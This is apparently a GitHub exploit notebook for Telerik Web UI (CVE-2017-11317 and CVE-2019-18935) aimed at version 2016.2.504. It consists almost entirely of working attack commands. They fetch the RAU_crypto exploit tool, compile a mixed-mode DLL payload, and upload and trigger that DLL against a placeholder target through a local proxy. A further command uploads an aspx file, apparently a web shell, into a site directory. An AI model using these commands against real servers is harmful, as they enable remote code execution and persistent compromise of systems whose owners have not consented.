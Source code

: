 # Telerik Web UI Unrestricted File Upload (CVE-2017-11317) + Telerik Web UI RadAsyncUpload Deserialization

https://github.com/michael101096/cs2020_msels/tree/master/scripts/cves/telerik_cve-2019-18935

## Telerik version: 2016.2.504

## Target
https://target

## Proxy
http://127.0.0.1:8080

## Command
[https://github.com/bao7uo/MixedUp](https://github.com/bao7uo/MixedUp)
```shell
curl -OL https://github.com/bao7uo/RAU_crypto/blob/master/RAU_crypto.py

"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr /LD MixedAssembly.cpp -o MixedAssembly64.dll
"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr load.cpp

# Upload
python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
# Trigger
python RAU_crypto.py -L c:/users/public/documents/MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

# Upload
python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
# Trigger
python RAU_crypto.py -L c:/users/public/documents/MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

# Upload aspx
python RAU_crypto.py -P C:\www\sites\ 2016.2.504 v.aspx https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
```
